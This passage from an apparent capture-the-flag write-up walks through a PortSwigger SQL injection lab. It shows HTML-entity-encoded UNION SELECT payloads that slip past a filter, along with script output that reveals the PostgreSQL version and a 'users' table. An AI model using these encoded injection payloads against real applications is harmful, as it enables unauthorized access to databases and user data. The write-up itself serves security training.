 ```py
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py
381 units
null
```

**Now, we need to know that column is accepting a string data type or not:**
```py
# UNION SELECT 'string'
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#39;&#115;&#116;&#114;&#105;&#110;&#103;&#39;'
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py
381 units
string
```

It accepts string data type!

**Next, we can find out what DBMS(Database Management System) is using:**
```py
# UNION SELECT version()
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#118;&#101;&#114;&#115;&#105;&#111;&#110;&#40;&#41;'
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py
381 units
PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit
```

- DBMS information: PostgreSQL version 12.12

**Then, we can list all the tables in the current database:**
```py
# UNION SELECT table_name FROM information_schema.tables
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#116;&#97;&#98;&#108;&#101;&#95;&#110;&#97;&#109;&#101;&#32;&#70;&#82;&#79;&#77;&#32;&#105;&#110;&#102;&#111;&#114;&#109;&#97;&#116;&#105;&#111;&#110;&#95;&#115;&#99;&#104;&#101;&#109;&#97;&#46;&#116;&#97;&#98;&#108;&#101;&#115;'
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py | grep 'users'                                            
users
```

- Found table: `users`
